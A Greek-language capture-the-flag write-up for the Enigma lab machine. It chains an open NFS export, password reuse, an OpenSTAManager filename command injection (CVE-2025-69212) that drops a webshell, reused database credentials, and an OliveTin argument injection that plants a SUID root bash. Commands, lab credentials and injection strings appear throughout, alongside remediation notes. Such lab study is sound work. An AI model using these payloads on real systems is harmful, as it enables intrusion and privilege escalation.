

Το Enigma είναι "εύκολο" μόνο στην ετικέτα δυσκολίας — είναι μια πραγματικά ικανοποιητική αλυσίδα όπου κάθε υπηρεσία παραδίδει το κλειδί για την επόμενη, και τίποτα στην πορεία δεν είναι bug memory-corruption. Ένα unauthenticated export NFS παραδίδει έγγραφα onboarding με ένα temp password· η επαναχρησιμοποίηση password το περπατά μέσα στο webmail ενός δεύτερου χρήστη, που διαρρέει credentials για ένα CRM· το CRM είναι ένα OpenSTAManager που είναι patched-αλλά-ακόμα-ευάλωτο (CVE-2025-69212) που μετατρέπει ένα upload ZIP σε webshell· ένα password βάσης δεδομένων μας δίνει έναν πραγματικό χρήστη· και το root είναι ένα λάθος ρυθμισμένο εργαλείο automation OliveTin που τρέχει ευχαρίστως εντολές επιπέδου-root — με ορίσματα δοσμένα από τον επιτιθέμενο — για όποιον μπορεί να φτάσει το socket του.
Το scan είναι μια επιφάνεια σε σχήμα mail-server — SSH, HTTP, POP3/IMAP (Dovecot), και κρίσιμα NFS στη 2049. Τα πιστοποιητικά TLS και ένα redirect HTTP ονομάζουν τον host enigma.htb.
nmap
$ nmap -p- -sCV <TARGET_IP>22/tcp open ssh OpenSSH 9.6p1 Ubuntu
80/tcp open http nginx 1.24.0 (redirect → http://enigma.htb/)
110/tcp open pop3 Dovecot pop3d
143/tcp open imap Dovecot imapd
993/995 open ssl/imap, ssl/pop3
2049/tcp open nfs (RPC 100003 v3,4)
Ένα fuzz vhost στο enigma.htb αναδεικνύει το mail001 (webmail Roundcube) και αργότερα το support_001. Πρόσθεσέ τα στο /etc/hosts και προχώρα στο export NFS.
Αρχική Πρόσβαση — Διαρροή Anonymous NFS
Το showmount λιστάρει ένα μόνο export με το χαρακτηριστικό * — κανένας περιορισμός client, οποιοσδήποτε μπορεί να το κάνει mount:
showmount → mount
$ showmount -e <TARGET_IP>Export list for <TARGET_IP>:
/srv/nfs/onboarding *$ sudo mount -t nfs <TARGET_IP>:/srv/nfs/onboarding /tmp/onboarding -o ro$ ls -la /tmp/onboarding-rw-r--r-- 1 root root 1751 Feb 19 14:53 New_Employee_Access.pdf
Ένα world-readable αρχείο, ονομασμένο ακριβώς όπως το είδος εγγράφων onboarding που έχει ένα temp password. Το pdftotext το επιβεβαιώνει:
pdftotext New_Employee_Access.pdf -
Enigma Corp IT Department — New Employee System Access
Employee: Kevin Mitchell
Webmail Access
URL: http://mail001.enigma.htb
Username: kevin
Password: Enigma2024!
Please change your password upon first login.
Ένα export NFS με * και χωρίς σκέψη root_squash είναι ολόκληρο το foothold. Τα exports θα έπρεπε να είναι καρφωμένα σε συγκεκριμένα hosts/subnets, mounted read-only όπου γίνεται, και — προφανώς — να μην χρησιμοποιούνται ποτέ για να σταθμεύσουν έγγραφα credentials.
Επαναχρησιμοποίηση Password — kevin → sandra
Τα credentials του PDF κάνουν login στο Roundcube σαν kevin, του οποίου το inbox είναι ένα ανιαρό email καλωσορίσματος από τη Sarah στα Accounts. Αυτό είναι το στοιχείο: η Sarah έγινε onboarded με τον ίδιο τρόπο που έγινε ο Kevin, και το έγγραφο έλεγε στον Kevin να αλλάξει το temp password του — τίποτα δεν υποδεικνύει ότι κάποιος πραγματικά το έκανε. Η φτηνή υπόθεση είναι επαναχρησιμοποίηση password σε όλο το προσωπικό, και πληρώνει:
sandra : Enigma2024!
Login to http://mail001.enigma.htb as sandra : Enigma2024! → success
Το mailbox της Sandra έχει το κέρδος — ένα "Re: OpenSTAManager Access Request" από το IT με credentials για μια τρίτη εφαρμογή:
Το Roundcube εδώ είναι 1.6.16 — η patched έκδοση, όχι μια ευάλωτη. Ο δρόμος μπροστά δεν ήταν ένα CVE webmail· ήταν το να διαβάσεις το mail. Η καταμέτρηση δεν αφορά μόνο εκδόσεις.
Foothold — Injection P7M του OpenSTAManager (CVE-2025-69212)
Το support_001 τρέχει OpenSTAManager 2.9.8, και τα credentials admin κάνουν login κατευθείαν. Εκείνη η έκδοση είναι ευάλωτη στο CVE-2025-69212, ένα OS command injection στην επεξεργασία αρχείων P7M (signed-XML). Ο μηχανισμός: όταν η εφαρμογή κάνει decode ένα αρχείο .p7m βγαίνει σε shell στο OpenSSL, παρεμβάλλοντας το filename στην εντολή χωρίς sanitisation:
Το plugin importFE_ZIP κάνει extract ένα ανεβασμένο ZIP και τροφοδοτεί το όνομα κάθε καταχώρησης .p7m σε εκείνο το exec(). Οπότε ένα ZIP του οποίου το όνομα καταχώρησης κλείνει το εισαγωγικό και κάνει inject μια εντολή είναι αυθαίρετη εκτέλεση. Ένας περιορισμός: το ZipArchive::extractTo() της PHP χωρίζει στο /, οπότε το payload πρέπει να είναι χωρίς κάθετο — cd files && … αντί για απόλυτο path:
Διαβάζοντας το filename ενάντια στην ευάλωτη γραμμή: το invoice.p7m" κλείνει το εισαγωγικό που τυλίγει το αθώο όνομα, το ;{cmd}; τρέχει το payload σαν δικό του statement, και το τελικό echo ".p7m απορροφά το υπόλοιπο -inform DER … σαν αθώα ορίσματα ώστε τίποτα να μη ρίξει syntax error. Ανέβασέ το μέσω του picker Importazione FE (ένα απλό POST /actions.php, op=save, πεδίο αρχείου blob):
upload & confirm RCE
$ curl -b osm.cookies -F op=save -F id_module=14 -F id_plugin=48 \
-F 'blob=@exploit.zip;type=application/zip' http://support_001.enigma.htb/actions.php{"error":"... non è un file ZIP valido."} # fires AFTER exec() already ran$ curl "http://support_001.enigma.htb/files/SHELL.php?c=id"uid=33(www-data) gid=33(www-data) groups=33(www-data)
Εκείνο το error XML-parse είναι επιβεβαίωση, όχι αποτυχία — ο decoder πνίγεται στο DUMMY_P7M_CONTENT γιατί δεν είναι έγκυρο signed XML, αλλά εκείνος ο έλεγχος συμβαίνει μόνο αφού το injected filename μας έχει ήδη περάσει από exec(). Το webshell είναι στον δίσκο.
www-data → haris — Επαναχρησιμοποίηση Password Database
Το config.inc.php του OpenSTAManager κρατά το login MySQL του, και το OSM αποθηκεύει τους δικούς του χρήστες σαν bcrypt στον πίνακα zz_users:
config → db → hashes
www-data$ grep -E 'db_(username|password|name)' config.inc.php$db_username = 'brollin'; $db_password = 'Fri3nds@9099'; $db_name = 'openstamanager';www-data$ mysql -u brollin -p'Fri3nds@9099' openstamanager -N -e \
'SELECT username,password FROM zz_users;'admin $2y$10$rTJVUNyGGKPlhw2cFdf5Ae...
haris $2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC
Ο haris είναι επίσης πραγματικός χρήστης συστήματος. Το bcrypt του πέφτει στο rockyou μέσα σε δευτερόλεπτα:
Το SSH είναι μόνο public-key, οπότε το su haris είναι ο τρόπος εισόδου. Το user flag ζει στο home του:
su haris → user.txt
www-data$ su haris # bestfriendsharis@enigma:~$ cat user.txt[redacted — user flag]
Root — Ένα Εργαλείο Automation Root που Εμπιστεύεται το Input του
Ο haris δεν έχει sudo. Η καταμέτρηση διαδικασιών αναδεικνύει κάτι που τρέχει σαν root: /usr/local/bin/OliveTin — ένα web-based εργαλείο "run buttons for shell commands", ακούει στο 127.0.0.1:1337. Το config του (/etc/OliveTin/config.yaml) έχει δύο ενοχοποιητικές ρυθμίσεις και μία επικίνδυνη action:
/etc/OliveTin/config.yaml (excerpt)
authRequireGuestsToLogin: false# guests can do anything
defaultPermissions: { exec: true }
- title: Backup Database
id: backup_database
shell: "mysqldump -u {{ db_user }} -p'{{ db_pass }}' {{ db_name }} > /opt/backups/backup.sql"
arguments:
- name: db_pass
type: password# NOT an ascii_identifier — never sanitised
Δύο από τα τρία ορίσματα είναι ascii_identifier (validated), αλλά το db_pass είναι τύπου password — ελεύθερης μορφής, χωρίς φιλτράρισμα χαρακτήρων — και ρίχνεται κατευθείαν σε ένα shell template. Κλείσε το εισαγωγικό -p'…' και κάνε inject.
Η λεπτομέρεια που μου κόστισε χρόνο: αυτή η action είναι προσβάσιμη μόνο σαν haris. Από το webshell www-data, κάθε σύνδεση στο 127.0.0.1:1337 απλά κρεμούσε — ένα owner-match του firewall του host πετάει την κίνηση του web χρήστη προς το OliveTin. Γι' αυτό ακριβώς το box χρειάζεται το βήμα su haris· δεν είναι προαιρετική διακόσμηση. Σαν haris, το API επιστρέφει 200 αμέσως.

Το OliveTin μιλάει ConnectRPC. Η ασύγχρονη μέθοδος StartAction πέταξε σιωπηλά το actionId μου· η κλήση που δουλεύει είναι το StartActionAndWait. Κάνε inject μέσω db_pass για να ρίξεις ένα SUID-root bash:
Το template κάνει render σαν mysqldump -u backup_svc -p'x' ; install -m 4755 /bin/bash /tmp/.bs ; #' production … — το install τρέχει σαν root και ρίχνει ένα setuid bash. Μετά το -p κρατά το effective UID στο 0:
"Run buttons for shell commands" είναι μια συμμαζεμένη ιδέα μέχρι τα κουμπιά να παίρνουν ορίσματα ελεύθερης μορφής, να τρέχουν σαν root, και να δέχονται unauthenticated guests. Οποιοδήποτε από αυτά απενεργοποιημένο σταματά αυτό: validate/whitelist τιμές ορισμάτων, μην τρέχεις ποτέ τον daemon σαν root, και απαίτησε auth για exec. Το security-by-obscurity (binding στο loopback) αγόρασε μόνο έναν κανόνα firewall που ένα su νικά.
Γιατί Δούλεψε
Σταδιο
Ριζα του προβληματος
→ kevin
Export NFS μοιρασμένο σε * με ένα έγγραφο credentials μέσα του (CWE-552 / CWE-284)
kevin → sandra
Κοινό temp password onboarding επαναχρησιμοποιημένο σε όλο το προσωπικό, ποτέ αλλαγμένο (CWE-521 / CWE-259)
→ www-data
Το OpenSTAManager ≤2.9.8 παρεμβάλλει ένα filename .p7m μέσα σε exec() — CVE-2025-69212 (CWE-78)
→ haris
Password DB σε config + ένα σπάσιμο bcrypt επαναχρησιμοποιημένο σαν password συστήματος (CWE-522)
→ root
OliveTin που τρέχει σαν root με guest exec και ένα unsanitised όρισμα τύπου-password σε ένα shell template (CWE-78 / CWE-269 / CWE-306)